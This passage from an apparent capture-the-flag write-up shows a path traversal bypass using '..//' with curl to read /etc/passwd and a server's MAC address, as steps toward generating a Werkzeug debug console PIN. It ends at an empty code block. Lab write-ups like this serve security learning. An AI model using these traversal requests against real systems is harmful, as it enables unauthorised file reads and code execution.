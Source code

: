 But bypassable with `..//`.

```bash
curl http://10.10.11.164/uploads/..//etc/passwd --path-as-is
```

![](screenshots/curl_etc_passwd.png)

---
## 3. Exploitation

### 3.1 Werkzeug Console PIN Generation

Following HackTricks methodology, required values were extracted:

- Username: `root`  
- Flask app path discovered via BurpSuite:  
![](screenshots/burpsuite_path.png)
- MAC address → converted to decimal:  
  ```bash
  curl http://10.10.11.164/uploads/..//sys/class/net/eth0/address --path-as-is
  ```
![](screenshots/curl_mac_address.png)
![](screenshots/python_mac_decimal.png)
- Boot ID:  
  ```bash
  ```